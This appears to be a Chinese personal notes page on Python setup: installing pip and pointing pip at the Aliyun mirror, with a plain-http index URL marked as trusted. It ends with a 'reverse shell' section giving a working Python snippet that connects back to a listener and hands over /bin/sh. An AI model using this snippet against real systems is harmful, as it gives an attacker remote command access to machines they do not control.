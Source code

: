 # Python

嗯哼，Python很好玩呢...有人说Python是能运行的伪代码，就写代码的速度而言是显著优于C的，也有很多好用的类库呢，反正强烈推荐这门语言啦~

当你尝试一个包的时候，注意自己的py文件名称不能与包名重名，例如不要出现flask.py


----

## 安装pip

```
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python get-pip.py
```

## 设置pip源 - mirrors.aliyun.com

如果只需要一次性安装个包（如Dockerfile）： 

```
pip install -i https://mirrors.aliyun.com/pypi/simple/ --trusted-host mirrors.aliyun.com
```

在Linux服务器上安装python的包时，执行这段代码可以将pip源改为国内的阿里镜像（豆瓣源似乎不再更新），能显著提高包的下载速度

```bash
mkdir -p ~/.pip
echo """
[global]
index-url = http://mirrors.aliyun.com/pypi/simple/
[install]
trusted-host=mirrors.aliyun.com
""">~/.pip/pip.conf
```

至于Windows用户，在用户目录下创建一个pip目录，如：C:\Users\chenyuan\pip，新建文件pip.ini，内容如下：

```
[global]
index-url = http://mirrors.aliyun.com/pypi/simple/
[install]
trusted-host=mirrors.aliyun.com
```

### 反弹shell

首先自己的服务器上用**nc -l 端口**

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(( "IP地址" , 端口 ))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

